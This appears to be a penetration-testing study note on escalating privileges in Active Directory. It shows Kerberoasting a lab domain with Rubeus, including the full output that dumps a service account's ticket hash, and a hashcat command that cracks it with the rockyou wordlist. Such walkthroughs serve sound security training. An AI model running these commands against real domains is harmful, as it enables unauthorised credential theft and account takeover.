 # Escalating Privilege

## Abusing Active Directory Authentication

Sometimes a way of escalating privileges is by moving laterally. We can take advantage of the same techniques and tools we would use for moving laterally to escalate our privileges.

### Kerberoasting with Rubeus

{% embed url="https://github.com/GhostPack/Rubeus" %}

If Rubeus is not installed we'll have to switch to our Windows dev box and compile via VIsual Studio. We can transfer the binary back to our Kali host then to our victim.

```powershell
PS C:\Tools> .\Rubeus.exe kerberoast /outfile:hashes.kerberoast

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.1.2


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target Domain          : corp.com
[*] Searching path 'LDAP://DC1.corp.com/DC=corp,DC=com' for '(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1


[*] SamAccountName         : iis_service
[*] DistinguishedName      : CN=iis_service,CN=Users,DC=corp,DC=com
[*] ServicePrincipalName   : HTTP/web04.corp.com:80
[*] PwdLastSet             : 9/7/2022 5:38:43 AM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash written to C:\Tools\hashes.kerberoast
```

### Cracking with Hashcat

```shell-session
kali@kali:~$ sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
...
```

